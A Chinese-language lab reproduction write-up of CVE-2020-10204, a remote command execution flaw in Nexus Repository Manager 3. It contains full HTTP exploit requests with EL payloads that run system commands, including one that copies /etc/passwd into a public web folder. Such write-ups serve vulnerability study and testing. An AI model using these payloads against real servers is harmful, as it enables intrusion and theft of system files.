



Nexus Repository Manager 3 extdirect 远程命令执行漏洞 CVE-2020-10204¶
漏洞描述¶
Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞，这个漏洞是CVE-2018-16621的绕过。
参考链接：
- https://support.sonatype.com/hc/en-us/articles/360044356194-CVE-2020-10204-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10204/README.md
漏洞影响¶
Nexus < 3.21.1
环境搭建¶
Vulhub执行如下命令启动Nexus Repository Manager 3.21.1：
docker-compose up -d
等待一段时间环境才能成功启动，访问http://your-ip:8081即可看到Web页面。
该漏洞需要访问更新角色或创建角色接口，所以我们需要使用账号密码admin:admin登录后台。
漏洞复现¶
登录后台后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：
POST /service/extdirect HTTP/1.1
Host: your-vps-ip:8081
Content-Length: 223
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.9514072635504696
Content-Type: application/json
Accept: */*
Origin: http://your-vps-ip:8081
Referer: http://your-vps-ip:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.9514072635504696; NXSESSIONID=9c8acd44-38cb-4a2c-a045-96161193dbc2
{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"2","firstName":"admin","lastName":"User","email":"admin@example.org","status":"active","roles":["nxadmin$\\B{233*233}"]}],"type":"rpc","tid":11}

参考https://github.com/jas502n/CVE-2020-10199，使用表达式$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/awesome_poc')}即可成功执行任意命令：

命令touch /tmp/awesome_poc执行成功：

另一处漏洞点：
POST /service/extdirect HTTP/1.1
Host:
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.856555763510765
Content-Type: application/json
Cookie: jenkins-timestamper-offset=-28800000; Hm_lvt_8346bb07e7843cd10a2ee33017b3d627=1583249520; NX-ANTI-CSRF-TOKEN=0.856555763510765; NXSESSIONID=e9d6620d-6843-49a6-a887-cd7cef74d413
Content-Length: 304
{"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"1111","name":"2222","description":"3333","privileges":["$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('cp /etc/passwd ./public/vuln.html')}"],"roles":[]}],"type":"rpc","tid":89}